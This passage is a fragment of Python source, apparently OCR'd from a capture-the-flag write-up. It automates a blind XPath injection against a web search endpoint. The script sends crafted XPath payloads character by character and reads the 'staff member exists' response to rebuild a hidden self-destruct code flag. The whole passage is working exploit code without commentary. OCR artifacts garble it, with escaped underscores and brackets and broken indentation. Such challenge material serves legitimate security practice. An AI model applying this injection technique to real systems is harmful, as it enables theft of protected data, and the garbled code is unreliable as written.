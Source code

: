```python

		flag\_part\_2.append(c)

		print(" done")

	elif "This millitary staff member exists" in req.text:

		flag\_part\_1.append(c)

		print("\\nFound start values of %s and %s" % (flag\_part\_1, flag\_part\_2))

		Test = False

		break

  

#Check for last value in flag and print final product

  

count = 0

Test = True

while Test:

	#Iterate through the ascii range while avoiding bad chars

	for i in \[x for x in range(31,128) if x != bad \]:

	c = chr(i)

	test\_flag = ''

	test\_flag = ''.join(flag\_part\_1) + c

	print(" \\r%s" % test\_flag, end\='', flush\=True)

	query = '\\'\] |/military/district/staff/selfDestructCode\[contains(text(),\\'%s\\')\] | /military/district/staff\[name=\\'' % test\_flag

	data = '{"search":"%s"}' % query

	req = requests.post(url\=url, headers\=hdr, data\=data)

	#Check to see if we got the correct char

	if "This millitary staff member exists" in req.text:

		flag\_part\_1.append(c)

	#Check for last value in flag and print final product

	if flag\_part\_1\[-1\] == "\_":

		count += 1

		if count == 3:

			print("Phase 1 complete" )
	
			Test = False
```